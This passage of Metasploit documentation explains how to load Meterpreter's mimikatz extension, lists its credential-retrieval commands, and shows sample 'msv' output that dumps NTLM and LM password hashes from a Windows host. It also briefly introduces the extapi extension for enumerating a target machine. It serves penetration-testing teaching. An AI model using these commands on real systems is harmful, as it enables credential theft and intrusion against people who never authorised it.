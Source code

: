To begin, load the extension:

```
meterpreter > load mimikatz
Loading extension mimikatz...success.
meterpreter >
```

This will create more commands for the Meterpreter prompt. Most of them
are meant to be used to retrieve user names, hashes, passwords and other
information:

```
Mimikatz Commands
=================

    Command           Description
    -------           -----------
    kerberos          Attempt to retrieve kerberos creds
    livessp           Attempt to retrieve livessp creds
    mimikatz_command  Run a custom command
    msv               Attempt to retrieve msv creds (hashes)
    ssp               Attempt to retrieve ssp creds
    tspkg             Attempt to retrieve tspkg creds
    wdigest           Attempt to retrieve wdigest creds
```

An example of using the `msv` command:

```
meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

AuthID    Package    Domain           User              Password
------    -------    ------           ----              --------
0;313876  NTLM       WIN-6NH0Q8CJQVM  user10            lm{ 0363cb92c563245c447eaf70cfac29c1 }, ntlm{ 16597a07ce66307b3e1a5bd1b7abe123 }
0;313828  NTLM       WIN-6NH0Q8CJQVM  user10            lm{ 0363cb92c563245c447eaf70cfac29c1 }, ntlm{ 16597a07ce66307b3e1a5bd1b7abe123 }
0;996     Negotiate  WORKGROUP        WIN-6NH0Q8CJQVM$  n.s. (Credentials KO)
0;997     Negotiate  NT AUTHORITY     LOCAL SERVICE     n.s. (Credentials KO)
0;45518   NTLM                                          n.s. (Credentials KO)
0;999     NTLM       WORKGROUP        WIN-6NH0Q8CJQVM$  n.s. (Credentials KO)
```


**Using the extapi Extension**

The main purpose of the extapi extension is to perform advanced
enumeration of the target machine. For example, you can enumerate things
like registered services, open windows, clipboard, ADSI, WMI queries,
etc.


[railgun]: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation